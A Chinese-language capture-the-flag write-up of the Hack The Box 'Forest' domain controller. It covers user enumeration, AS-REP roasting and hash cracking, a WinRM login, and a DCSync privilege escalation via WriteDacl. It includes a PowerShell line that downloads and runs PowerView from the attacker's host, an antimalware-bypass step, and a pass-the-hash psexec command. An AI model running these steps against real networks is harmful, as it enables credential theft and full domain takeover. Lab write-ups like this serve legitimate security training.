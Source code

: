 ```yaml
---
title: Forest
date: 2021-12-24 13:52:39
tags: HackThebox
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2913cb4eedb44306869932340084824e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集

```bash
nmap -sV -sS -Pn -A -p1-65535 10.10.10.161
```

```bash
Nmap scan report for 10.10.10.161
Host is up (0.32s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-21 11:03:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  unknown
49931/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/21%OT=53%CT=1%CU=36900%PV=Y%DS=2%DC=T%G=Y%TM=617148
OS:13%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=I%CI=I%II=I%SS=S%TS
OS:=A)SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-10-21T04:05:16-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-21T11:05:15
|_  start_date: 2021-10-21T07:03:53

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   321.85 ms 10.10.14.1
2   321.83 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3716.43 seconds
```

<!--more-->

我们发现可以进行匿名登录，我们尝试匿名登录SMB服务，看看有哪些有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/e568f2f0f0ef419da569481703bc97f1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
答案是没有，没有什么共享信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/9315d9655d274be9baf1173d824bbf38.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

上面信息收集时发现了ldap服务，那我们尝试使用ldapsearch工具对`namingcontexts`字段进行发掘
![在这里插入图片描述](https://img-blog.csdnimg.cn/5159dbdc249c4274ba73c56d802ba67c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试更深入地挖掘DN信息，并尝试获取域中的用户列表
![在这里插入图片描述](https://img-blog.csdnimg.cn/412eb99806c84827a8d4924b17aab912.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们还可以使用`enum4linux`获取用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/295e9874f8a94b21b77a12fd68e7de09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将搜集的信息保存为一个`anon_ldap.txt`文件，过滤出`svc-alfresco`用户的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/323186c2631f445e8f56396ebc761eef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们拿到账号和用户名后，我们得检查一下是否启用了预认证，这里解释一下什么是预认证

> **在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。**

那我们可以使用`impacket`包中的`GetNPUsers.py`这个脚本去请求TGT，直接获取易受攻击的用户名及对应的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/5284eb6938a448ed9fc2c450536c9ebc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`john`来破解这个hash值，破解的明文值为`s3rvice`
![在这里插入图片描述](https://img-blog.csdnimg.cn/171d16fb086e4306aed46bcfde8464e3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们也可以用hashcat来破解

```bash
hashcat -m 18200 -a 0 -w 3 forest.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac55b719cfc140b1ada3ab3f1ec23de1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为上边我们扫描到主机开放了5985端口，那证明主机开放了WinRM服务

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/391c73ad0f65465dbec84f80162fe866.png)
## 提权
我们使用Bloodhound这个工具查询是否有潜在的提权路径，首先我们得先把客户端`SharpHound.exe`上传到目标主机上，并运行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/df95f275e38340aba9d52b2aa90c838e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa70b145a0143d790b4d8c629a36d7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了方便我们传输，我们在本机上搭建一个SMB服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6dcecf002764ceb89b526cfc469f895.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将压缩包复制到本机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c2108c5892d4762af178e042896411e.png)
在攻击机上启动bloodhound，并将压缩包拖进bloodhound中
![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1aedb210f74238ba29dd65d3cfb738.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后点击最后一个选项，查看可以进行哈希传递的用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d5109e17fd740c08689be66a2ce0c35.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后再点击这个选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/e417b9a4c91442eeb7e5f52dc99ec7be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6899426da41d42139be684f6f99e7772.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到`svc-alfresco`这个用户是属于`service account`这个组的成员，同时它也是`Privileged IT Accounts`的成员，它也是`account operators`的成员。它允许该组的成员创建和修改用户并将其添加到不受保护的组
![在这里插入图片描述](https://img-blog.csdnimg.cn/e2cdb6b465b74640a64b7ea297939ce3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们现在点击`Shortest Paths to High Value Targets`，查看去往高权限目标的路径。该用户具有`GenericAll`的权限和`Exchange Windows`权限组。在`Exchange Windows`权限组具有`WriteDacl`在域的权限。该`WriteDacl`权限使用户能够向对象添加`DACL`（自由访问控制列表）。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6d80a75b47946b2bb2b74041117d941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
**那就意味着：**

 **1. 我们可以将用户添加到Exchange Windows 权限组。
 2. 然后，由于 Exchange 组有WriteDacl权限，我们可以将DCSync权限授予我们创建的用户。**

>  **DCsync是几个权限的集合体，是域渗透中经常会用到的技术，如果普通用户想具有DCsync权限，可以给对象添加以下三条ACE：
>  DS-Replication-Get-Changes，对应GUID为：1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-All，对应GUID为：1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-In-Filtered-Set，对应GUID为：89e95b76-444d-4c62-991a-0facbeda640c**

## DCSync
首先我们先将用户添加到域中
![在这里插入图片描述](https://img-blog.csdnimg.cn/412def70d225418188f892346169b474.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将用户添加到`Exchange Windows`权限组
![在这里插入图片描述](https://img-blog.csdnimg.cn/ead54544e07d4f67bcb1f4d5c4c973d0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看看菜单，我们选择`Bypass-4MSI`，`Bypass-4MSI`命令用于在导入脚本之前规避防御者。接下来，我们可以使用`Add-ObjectACL`和`john`的凭证，并给他`DCSync`权限。
![在这里插入图片描述](https://img-blog.csdnimg.cn/84b58436b0f54790bfdc7e1e5823e29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后输入以下的powershell的代码

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Secpassword = ConvertTo-SecureString 'password1234' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\pyh',$Secpassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pyh -Rights DCSync
```
开启一个小型服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/37f75053912d4977b8ec82cc263da07f.png)
执行完成后，我们使用`secretdumps.py`脚本获取用户名对应的哈希值。这里我们获取到了管理员的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/16f9219409ec4fa78100ba391a0cf942.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们只需要使用`psexec.py`脚本来进行哈希传递攻击，获取到超级管理员权限

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87f2253887984b2f8852806cd45909bb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
